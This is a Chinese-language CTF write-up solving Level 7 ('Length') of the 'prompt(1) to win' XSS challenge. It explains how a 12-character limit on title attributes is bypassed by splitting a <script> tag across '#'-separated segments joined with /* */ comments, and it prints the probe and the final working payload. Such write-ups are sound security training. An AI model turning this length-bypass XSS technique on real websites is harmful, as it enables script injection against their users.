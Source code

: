 ## [[prompt(1) to win](http://prompt.ml)] [[Level 7 - Length](http://prompt.ml/7)] [[解题报告](http://exp-blog.com/2019/03/23/pid-3672/)]

------

## 题目

```javascript
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

## 解题报告

题目代码很好理解：

- 使用 `#` 切割 input 的字符串，切割后的子串会被顺次放到若干个 `<p>` 标签的 `title` 属性中
- 子串长度若超过 12 则会被截断
- input 内容没有做任何过滤

可以使用这个探针看到前面的分析效果：

`11#2222#333333#44444444#5555555555#6666666666666666666666666#"><img src=0`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/01.png)


------------

需知道 javascript 代码有个特点：

- 在 HTML 语境中，`<script>` 和 `</script>` 标签之间的内容默认视为 js 代码
- js 代码换行后依然会自动拼接并生效（但是函数名/变量名要完整，不能破开到两行）
- js 代码内容之间的注释会被自动忽略

因此对于这种限制长度的注入点，可以搭配 `<script>` 和多行注释 `/* */` 进行绕过。

结合 `title` 属性值长度为 12 的限制进行考虑，可以尝试在本地构造这样的 HTML 代码，成功触发 prompt 事件：

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/  prompt/*"></p>
<p class="comment" title="*/(1)     /*"></p>
<p class="comment" title="*/</script> "></p>
```

> 注意： `<script>` 和 `</script>` 标签用于声明 js 代码的范围，这两个标签不能从中间任何位置破开到两行，否则多行注释 `/* */` 就不会起作用了。另外我在测试 payload 的时候，也尝试过 `<!-- -->` HTML 注释，但是尖括号会造成标签错位导致注入失败，有兴趣的同学可以研究下。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/02.png)

从前面构造的 HTML 代码中提取每一行的 `title` 属性值，使用 `#` 拼接，就得到最终 payload 如下（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*），完成挑战：

`"><script>/*#*/prompt/*#*/(1)/*#*/</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
